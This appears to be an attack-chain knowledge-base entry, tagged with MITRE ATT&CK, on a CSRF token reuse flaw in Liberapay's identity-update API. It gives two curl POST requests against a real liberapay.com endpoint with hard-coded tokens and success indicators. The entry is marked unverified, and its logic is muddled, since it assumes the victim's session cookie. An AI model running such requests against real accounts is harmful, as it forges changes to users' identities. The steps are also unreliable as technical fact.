

---
tags:
  - csrf
  - token-reuse
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Reusable-CSRF-Tokens-for-Identity-Update]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:27:03.171Z'
description: >-
  A multi-step demonstration of exploiting weak CSRF token implementation in
  Liberapay's APIs, where tokens are reusable across sessions, allowing
  unauthorized identity updates.
skill_level: intermediate
impact_level: high
id: 8dbc0fef-d13a-43bc-8a6f-7df60eb0673a
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Token Reuse Attack Enabling Forged Identity Updates in Liberapay

Multi-stage attack chain demonstrating exploitation of improper CSRF token handling in Liberapay's APIs. Tokens generated for non-logged-in users persist after login and can be reused from other sessions or browsers, bypassing intended CSRF protections. This allows attackers to forge requests, such as updating user identity, on behalf of authenticated users.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform (Liberapay application)
- Required services/ports: HTTPS on port 443
- Network access requirements: Internet access to Liberapay domain

### Initial Access Requirements

- Authenticated session cookie for target user
- Knowledge of CSRF token from another session or browser
- No special privileges needed beyond valid session

## Detailed Attack Procedures

### Step 1: Submit Original Identity Update Request
procedure: [[procedures/Exploit-Reusable-CSRF-Tokens-for-Identity-Update]]

**Objective**: Verify normal functionality with the original CSRF token to establish baseline.

**Instructions**: Use [[commands/curl-original-csrf-post]] to send a POST request to the identity update endpoint with the original token and form data.

```bash
curl -X POST 'https://liberapay.com/~153780/identity' \
  -H 'Cookie: session=your_session_cookie' \
  -d 'csrf_token=Jsf9LQiIMR362WsEP0elX54Ml4HTSCmv' \
  -d 'FirstName=Test' \
  -d 'LastName=User' \
  -d 'CountryOfResidence=US' \
  -d 'Nationality=US' \
  -d 'Birthday=1990-01-01'
```

**Expected Output**: HTTP 200 OK response confirming successful update.

**Success Indicators**:
- Response status 200
- No CSRF validation errors

### Step 2: Resubmit with Reused CSRF Token from Another Session
procedure: [[procedures/Exploit-Reusable-CSRF-Tokens-for-Identity-Update]]

**Objective**: Demonstrate token reuse by replacing the token with one from another browser or session, forging the request without proper validation.

**Instructions**: Modify the request using [[commands/curl-reused-csrf-post]] by replacing the CSRF token and resending the same POST.

```bash
curl -X POST 'https://liberapay.com/~153780/identity' \
  -H 'Cookie: session=your_session_cookie' \
  -d 'csrf_token=F798zSeZ80HjZipmUAh9ga4DFTgJgZ1H' \
  -d 'FirstName=Modified' \
  -d 'LastName=User' \
  -d 'CountryOfResidence=US' \
  -d 'Nationality=US' \
  -d 'Birthday=1990-01-01'
```

**Expected Output**: HTTP 200 OK response, indicating the update succeeded despite token reuse.

**Success Indicators**:
- Response status 200
- Update applied without token-specific validation failure

## Attack Chain Summary

### Key Achievements

1. Confirmed CSRF token persistence and lack of session binding
2. Successfully forged an identity update using a reused token
3. Highlighted weakened protection against cross-site request forgery

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
